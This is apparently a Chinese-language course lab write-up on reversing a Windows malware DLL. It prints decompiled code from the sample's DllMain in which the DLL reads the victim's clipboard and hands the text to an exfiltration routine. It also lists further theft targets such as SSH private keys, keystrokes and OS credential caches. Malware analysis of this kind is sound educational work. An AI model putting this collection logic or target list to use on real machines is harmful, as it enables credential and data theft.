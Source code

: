 ```yaml
---
title: Simple Reverse - 0x22(2023 Lab - WinMalware - Collect)
tags: [eductf, CTF, Reverse]

category: "Security/Course/NTU CS/Reverse/WinMalware Lab"
---
```


# Simple Reverse - 0x22(2023 Lab - WinMalware - Collect)
## Background
如果想要分析DLL，可以從以下三個地方切入
* _DllMainCRTStartup (DLL 載入和移除時的初始化與收尾)
    * DllMain / DllEntryPoint / CRT_INIT (function signature 相同)
    * 找有三個參數的 function call
    ![](https://hackmd.io/_uploads/Sk0GgCaz6.png)
    範例就大概像這樣，從`_DllMainCRTStartup`底下有`call _CRT_INIT`和`call DllEntryPoint`(`DllMain`在比較下面)
    ![](https://hackmd.io/_uploads/HklyZRTf6.png)
* Exported Functions
* TLS Callback
* [OpenClipboard](https://learn.microsoft.com/zh-tw/windows/win32/api/winuser/nf-winuser-openclipboard)
* [GetClipboardData](https://learn.microsoft.com/zh-tw/windows/win32/api/winuser/nf-winuser-getclipboarddata)
* [globalLock](https://learn.microsoft.com/zh-tw/windows/win32/api/winbase/nf-winbase-globallock)
* [\_itoa](https://learn.microsoft.com/zh-tw/cpp/c-runtime-library/reference/itoa-itow?view=msvc-170)
## Source Code
IDA解析的source code很常會出現明明沒有return value但還是自動建立的狀況，所以適時的刪除return value(Shift+DEL)是對分析比較好的做法
* DllMain
    ```cpp=
    BOOL __stdcall DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
    {
      if ( fdwReason == 1 )
      {
        MessageBoxA(0i64, "Reflective Dll Injection success. Remember to delete the persistence file", "eductf-lab", 0);
        my_main();    // 不重要的東西
        collect_and_exfiltrate();
      }
      return 1;
    }
    ```
* collect_and_exfiltrate
    ```cpp=
    void collect_and_exfiltrate(void)
    {
      PUCHAR pbInput; // [rsp+28h] [rbp-10h] BYREF

      pbInput = 0i64;
      collect_data(&pbInput);
      exfiltrate(pbInput);
    }
    ```
* collect_data
    ```cpp=
    void __fastcall collect_data(char **pbInput)
    {
      char *pbInput_1; // [rsp+28h] [rbp-10h] BYREF

      collect_get_clipboard_data(&pbInput_1);
      *pbInput = pbInput_1;
    }
    ```
* collect_get_clipboard_data
    ```cpp=
    void __fastcall collect_get_clipboard_data(LPVOID *pbInput)
    {
      HANDLE ClipboardData; // rax
      void *v3; // rsi
      int LastError; // eax
      char Buffer[34]; // [rsp+26h] [rbp-22h] BYREF

      if ( OpenClipboard(0i64) )
      {
        ClipboardData = GetClipboardData(1u);
        v3 = ClipboardData;
        if ( ClipboardData )
        {
          *pbInput = GlobalLock(ClipboardData);
          GlobalUnlock(v3);
        }
        else
        {
          LastError = GetLastError();
          _itoa(LastError, Buffer, 10);
        }
      }
      CloseClipboard();
    }
    ```
## Recon
目前要分析的重點著重在DllMain中，所以其他的切入點可以先不管，並且先聚焦在collect data身上。其實作者一開始就有把debug information都放在這邊，所以分析可以更順暢
1. 首先trace一下上面所有的code，會發現其實簡單到根本不用查MSDN也知道在幹嘛，就是把受害主機的剪貼簿打開，並取得這個剪貼簿的開頭指標，再回傳給`pbIntput`
2. 最後再傳給後續的exfiltrate function

:::info
目前的攻擊手法符合Mitre ATT&CK的[T1115](https://attack.mitre.org/techniques/T1115/)，剪貼簿中可能剛好有帳號、密碼、信用卡號之類的
除了剪貼簿，還能收集很多其他東西，像是：
* PDF、DOCX、XLSX、Email、Git source code
* SSH private key、Key logging、OS credential cache
* 麥克風、鏡頭、其他外接裝置
* 任何你想得到的資訊
:::